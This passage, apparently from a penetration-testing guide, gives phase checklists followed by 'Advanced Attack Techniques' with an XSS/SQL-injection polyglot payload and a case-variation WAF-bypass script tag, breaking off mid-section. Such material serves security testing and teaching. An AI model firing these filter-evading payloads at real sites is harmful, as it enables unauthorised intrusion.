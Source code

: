 ### Testing Phase
- [ ] Perform reconnaissance
- [ ] Conduct vulnerability assessment
- [ ] Execute manual testing
- [ ] Validate findings
- [ ] Document evidence

### Post-Testing Phase
- [ ] Compile comprehensive report
- [ ] Provide remediation guidance
- [ ] Conduct risk assessment
- [ ] Present findings to stakeholders
- [ ] Support remediation efforts

---

## 🚀 Advanced Attack Techniques

### 1. Polyglot Payloads
```javascript
// XSS + SQL Injection Polyglot
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>
```

### 2. WAF Bypass Techniques
```javascript
// Case variation
<ScRiPt>alert(1)</ScRiPt>

// Encoding
